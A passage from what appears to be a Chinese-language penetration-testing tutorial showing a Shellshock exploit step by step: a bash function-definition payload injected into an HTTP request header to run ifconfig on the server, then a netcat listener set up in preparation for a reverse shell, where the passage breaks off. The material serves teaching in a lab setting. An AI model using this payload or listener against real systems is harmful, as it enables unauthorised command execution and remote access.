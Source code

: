 8.  再次点击`Forward`，在`.ttf`文件的请求中，我们应该能得到`shellshcok.sh`的响应，像这样：

    ![](../img/a0e2ca2a140654512c9bf75fe663aebe.png)

    现在响应多了一个协议头参数，叫做`Vulnerable`。这是因为它将`echo`命令的输出集成到 HTTP 协议头中，所以我们可以进一步利用它。

9.  现在使用下列命令重复这个过程：

    ```
    () { :;}; echo "Vulnerable:" $(/bin/sh -c "/sbin/ifconfig")
    ```

    ![](../img/2573a3c32842a51a15eee630008fdf87.png)

10.  能够在远程服务器上执行命令，对于渗透测试来说是个巨大的优势，下一步自然是获得远程 shell。在 Kali 中打开终端，监听网络端口，像这样：

    ```
    nc -vlp 12345
    ```

    ![](../img/2bcf24c09e8a65058ff86b3302d69871.png)
